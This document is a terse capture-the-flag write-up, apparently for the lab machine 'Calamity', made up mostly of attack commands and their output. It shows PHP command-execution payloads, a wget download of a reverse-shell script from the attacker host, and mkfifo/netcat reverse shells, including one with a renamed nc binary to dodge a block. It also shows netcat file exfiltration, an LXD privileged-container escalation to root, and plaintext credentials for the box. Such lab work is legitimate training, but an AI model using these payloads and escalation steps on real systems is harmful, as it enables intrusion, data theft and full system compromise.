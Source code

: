 **By: curl -v http://10.10.10.27/admin.php  
Account find:  
admin   
skoupidotenekes**  
**For POC:**   
```shell
<?php system('ls -lah') ?>
Permission denied:
<?php exec('wget http://10.10.14.11/revshell.php') ?>
```
**Try but fail by VM setting:**
```shell
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1234 >/tmp/f') ?>
Check useful information:
<?php system('ls -lah /home/xalvas') ?>
<?php system('cat /home/xalvas/intrusions') ?> 
```
**COPY nc Method:**
```shell
<?php system('which nc') ?>

<?php system('cp /bin/nc /dev/shm/harmless') ?> 
<?php system('chmod +x /dev/shm/harmless') ?>
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/dev/shm/harmless 10.10.14.11 1234 >/tmp/f') ?>
```
**Try copy out to listen(TBC as CTF style):**
--------------------------------------------------------
```shell
/home/xalvas/recov.wav -> recov.wav

As nc blocked,
cp /bin/nc ~/nba
Kali: nc  -l -p 9090 > recov.wav
Remote:./nba -w3 10.10.14.11 9090 < recov.wav
```
--------------------------------------------------------

Then know "xalvas" password and login SSH:
18547936..*
Kail:
```shell
git clone https://github.com/saghul/lxd-alpine-builder.git
./build-alpine -a i686
```
#### SCP via SSH:
```shell
scp alpine-v3.9-i386-20190523_1714.tar.gz  xalvas@10.10.10.27:/tmp/
Password: 18547936..*
```
**Calamity:
```shell
xalvas@calamity:/tmp$ lxc image import alpine-v3.9-i386-20190523_1714.tar.gz --alias alpine
Image imported with fingerprint: 8e6c7cb2b5f1d8c52d8a4912c485984414a2e6954ce46c7f08b6a4e99caae6aa

xalvas@calamity:/tmp$ lxc init alpine alexcold -c security.privileged=true
Creating alexcold

xalvas@calamity:/tmp$ lxc config device add alexcold somedisk disk source=/ path=/mnt/root recursive=true
Device somedisk added to alexcold

Then start the docker:
xalvas@calamity:/tmp$ lxc start alexcold

xalvas@calamity:/tmp$ lxc exec alexcold --mode=interactive /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # ls -la
total 12
drwx------    2 root     root          4096 May 23 09:36 .
drwxr-xr-x   19 root     root          4096 May 23 09:34 ..
-rw-------    1 root     root            10 May 23 09:36 .ash_history
~ # cd /mnt/root/root
/mnt/root/root # ls
peda      root.txt  scr
/mnt/root/root # cat root.txt
9be653e014d17d1a54f9045e3220743c
```
